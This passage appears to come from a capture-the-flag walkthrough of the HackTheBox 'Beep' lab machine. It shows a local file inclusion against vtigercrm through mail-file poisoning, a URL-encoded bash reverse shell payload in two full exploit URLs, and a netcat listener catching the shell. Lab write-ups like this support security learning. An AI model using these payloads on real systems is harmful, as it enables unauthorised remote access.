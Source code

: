 ```
221 2.0.0 Bye
```

After sent a mail, I using LFI go to asterisk's mail file at `/var/mail/asterisk`

![](images/7.png)

Get reverse shell

Url encode using `hURL` to encode payload.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Execute bash reverse shell.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../..//var/mail/asterisk%00&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.6]~/walkthrough/hackthebox/beep
└─$ sudo nc -nvlp 443                                          
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 53748
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ 
```

### VoIP Command Injection
